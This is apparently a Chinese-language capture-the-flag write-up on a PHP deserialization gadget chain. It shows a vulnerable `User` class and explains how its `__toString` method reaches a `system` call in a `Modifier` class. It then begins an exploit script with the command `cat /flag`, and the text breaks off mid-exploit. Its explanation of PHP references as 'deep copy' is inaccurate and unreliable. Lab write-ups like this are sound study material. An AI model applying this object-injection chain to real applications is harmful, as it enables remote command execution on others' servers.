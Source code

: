 ```
}
class User{
	public $name;
	public $profile;
	public function __construct($name){
		$this->name = $this->UserWaf($name);
		$this->profile = "I am admin.";
	}
	public function __wakeup(){
		$this->UserWaf($this->name);
	}
	public function __toString(){
		return $this->profile->name;
	}
	public function __destruct(){
		echo "Hello ".$this->UserWaf($this->name).".</br>";
		
	}
	public function UserWaf($name){
		if(strlen($name)>10){
			return "admin";
		}
		if(!preg_match("/[a-f0-9]/iu",$name)){
			return "admin";
		}
		return $name;
	}
}
```

观察到类`Modifier`中存在`system`函数即命令执行，则需要通过`__get`魔术方法来调用`Modifier`类从而触发命令执行。

而观察到`User`类中存在`__toString`魔术方法，而且调用了一个并不存在的参数，因而可以通过`User`类的`__toString`方法调用`Modifier`的`__get`方法从而到达`Modifier`方法。

而在`Modifier`方法中存在一个`random_bytes()`函数，使得无法构造常规的`new_id()`达到与`old_id()`相同的效果，因而采用深浅拷贝的方式。

浅拷贝：诸如`$a = $b`，即将b的值赋值给a，而当b改变时a并不改变

深拷贝：诸如`$a = &$b`，即将b的地址赋值给a，即a指向b的地址，当b改变时由于a指向的值发生了改变，a也相应地发生改变。

因而最终exp如下：

```
<?php

class Modifier{
	public $old_id;
	public $new_id;
	public $p_id;
	public function __construct(){
		$this->old_id = "1";
		$this->new_id = "0";
		$this->p_id = "cat /flag";
	}
	public function __get($value){
	}
}

class User{
	public $name;
	public $profile;
	public function __construct($name){
		$this->name = $this->UserWaf($name);
		$this->profile = "I am admin.";
	}
```